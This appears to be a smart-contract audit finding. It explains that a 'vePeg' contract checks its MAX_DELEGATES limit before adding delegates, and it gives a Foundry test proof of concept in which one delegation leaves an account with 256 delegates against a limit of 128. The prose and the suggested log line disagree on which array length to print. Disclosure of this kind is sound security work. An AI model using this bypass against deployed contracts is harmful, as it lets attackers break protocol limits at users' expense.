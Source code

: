 As you can see, the check for `MAX_DELEGATES` is performed before the new delegates are added, allowing the limit to be bypassed.

To better understand the issue, copy the following POC into `vePeg.t.sol`.

```solidity
function test_MAX_DELEGATES_can_be_bypassed() external {

        uint256 aliceAmountToLock = 1;
        uint256 aliceLockDuration = 365 days;

        vm.startPrank(ALICE);

        peg.approve(address(ve), type(uint256).max);

        for(uint256 i = 0; i < 128; i++) {

            uint256 aliceLockId = ve.create_lock_for(aliceAmountToLock, aliceLockDuration, ALICE);
            ve.lock_perpetually(aliceLockId);
        }

        vm.stopPrank();

        vm.startPrank(BOB);

        uint256 bobAmountToLock = 1;
        uint256 bobLockDuration = 365 days;

        peg.approve(address(ve), type(uint256).max);

        for(uint256 i = 0; i < 128; i++) {

            uint256 bobLockId = ve.create_lock_for(bobAmountToLock, bobLockDuration, BOB);
            ve.lock_perpetually(bobLockId);
        }

        vm.stopPrank();

        //1 is from Alice and 150 from Bob
        vm.prank(ALICE);
        ve.delegate(1, 150);

        //As a result, Bob ends up with 256 delegates, exceeding the MAX_DELEGATES limit of 128.
    }
```

To observe the result, print `dstRepOld.length` inside `_moveAllDelegates()` after the new delegates are added. To do this, import `import {console} from "forge-std/console.sol";` and use `console.log("dstRepNew:", dstRepNew.length);` in `vePeg.sol`.

This approach is necessary because Foundry cannot directly access an array inside a struct from a public mapping. By doing this, you'll see that Bob's delegates reach 256, exceeding the `MAX_DELEGATES` limit of 128.

